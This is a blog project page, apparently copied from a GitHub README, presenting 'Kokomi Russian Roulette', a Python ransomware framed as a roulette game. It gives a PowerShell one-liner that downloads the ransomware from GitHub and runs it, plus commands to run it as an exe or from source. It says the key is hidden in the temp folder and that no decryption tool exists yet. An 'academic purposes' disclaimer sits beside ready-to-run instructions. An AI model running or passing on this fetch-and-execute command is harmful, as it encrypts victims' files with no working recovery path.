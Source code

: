```yaml
---
layout: post
header-style: text
title: Kokomi Russian Roulette.
img: img/projects/krr/krr-header.webp
---
```


<!-- HTML Meta Tags -->
<meta property="og:title" content="KOKOMI RUSSIAN ROULETTE">
<meta name="description" content="Implementacion de un ransomware inspirado en Kokomi">
<meta property="og:site_name" content="QuantumWavves">

<!-- Facebook Meta Tags -->
<meta property="og:url" content="https://quantumwavves.github.io/projects/kokomi-russian-roulette/">
<meta property="og:type" content="website">
<meta property="og:title" content="KOKOMI RUSSIAN ROULETTE">
<meta property="og:description" content="Implementacion de un ransomware inspirado en Kokomi">
<meta property="og:image" content="https://quantumwavves.github.io/img/projects/krr/krr-header.webp">

<!-- Twitter Meta Tags -->
<meta name="twitter:card" content="summary_large_image">
<meta property="twitter:domain" content="quantumwavves.github.io">
<meta property="twitter:url" content="https://quantumwavves.github.io/projects/kokomi-russian-roulette/">
<meta name="twitter:title" content="KOKOMI RUSSIAN ROULETTE">
<meta name="twitter:description" content="Implementacion de un ransomware inspirado en Kokomi">
<meta name="twitter:image" content="https://quantumwavves.github.io/img/projects/krr/krr-header.webp">


<p align="center">
<img src="/img/projects/krr/kokomi-endgame.webp" alt="drawing" width="500"/><br>
</p>

`This is almost a copy of the README from the repository on github`{:.success}

### What is?
<p style="text-align:justify">It is a simple ransomware written in Python with the cryptography library inspired by the Kokomi-themed Russian roulette game.  6 cabins, one chance to be encrypted</p>

Github repo here: [Kokomi Russian Roulette](https://github.com/quantumwavves/Kokomi-Russian-Roulette)

### Warning
`This software was created for academic and learning purposes only. I am not responsible for any misuse that may occur.`{:.warning}

### Use

One line in powershell (without shortener, since the misuse of these is prohibited by the terms and services of the same.)
```console
irm https://raw.githubusercontent.com/quantumwavves/Kokomi-Russian-Roulette/master/bin/oneline/krr-oneline.ps1 | iex
```
Normal usage (powershell or cmd, not have GUI)
```console
$ kokomi-russian-roulette.exe
```
Dev `(I recommend using a python virtual environment)`{:.info}
```console
$ .\env\Scripts\activate
$ pip install -r requirements.txt
$ python krr-fernet.py
# Alternative version with pyAes, more slow, but more secure
$ python krr-aes.py
```
### Decrypt files (key)
K.R.R generates a unique, randomized carry for each execution of the kokomi() function. It is stored in a .png file in the following path $env:temp or also known as %temp% with the name `sngmy.png`{:.warning}, decryption program to be created soon.

### To do list
- [ ] Port another language more speed, like C++ or C.
- [ ] Create README with instructions for decryption.
- [ ] Create decryption function
- [ ] Optimize execution times
### Demo

This is a demo, using the one line version of powershell

<p style="text-align: center">
<video width="600" height="400" controls>
  <source src="/img/projects/krr/krr-demo.mp4" type="video/mp4">
</video>
</p>

### Inspiration
- [NaGa](https://github.com/ic4rta/NaGa)
- [Sangonomiya Kokomi](https://genshin-impact.fandom.com/wiki/Sangonomiya_Kokomi)
